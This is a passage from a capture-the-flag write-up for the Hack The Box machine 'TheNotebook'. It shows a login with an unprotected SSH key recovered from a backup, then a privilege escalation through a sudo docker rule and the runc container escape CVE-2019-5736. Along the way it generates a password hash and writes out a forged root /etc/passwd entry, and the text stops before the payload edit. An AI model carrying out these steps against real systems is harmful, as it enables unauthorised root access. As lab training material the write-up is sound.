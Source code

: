 notice the home.tar.gz file in the backups.
we'll get this file by opening a pythnon web server on the Target Machine and making a request to the file

then executing the command `tar -zxf home.tar.gz`

we find an .ssh directory with id_rsa key with no password.

we can now ssh to noah@notebook and get the user shell

```text
┌──(kingcobra㉿kali)-[~/…/TheNotebook/home/noah/.ssh]
└─$ chmod 600 id_rsa
                                                                                                                                                                                              
┌──(kingcobra㉿kali)-[~/…/TheNotebook/home/noah/.ssh]
└─$ ssh -i id_rsa noah@notebook
```

```text
noah@thenotebook:~$ id
uid=1000(noah) gid=1000(noah) groups=1000(noah)
```

## Root SHELL

### docker CVE-2019-5736

by writing the command `sudo -l` on user noah we find:

```text
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
```

you can read about the exploit in the following blog: 
https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/

download the POC from : https://github.com/Frichetten/CVE-2019-5736-PoC

#### generating /etc/passwd privilaged user entry:

generate password for our privilaged user

```text 
┌──(kingcobra㉿kali)-[~/hackthebox/TheNotebook]
└─$ openssl passwd -1 -salt mysalt pass123
$1$mysalt$lEeAKJmXWixtWh5SL7YFk0
```
now we have this /etc/passwd entry:
`rooot:$1$mysalt$lEeAKJmXWixtWh5SL7YFk0:0:0:/root:/root:/bin/bash`

now we can modify the main.go payload line to be :
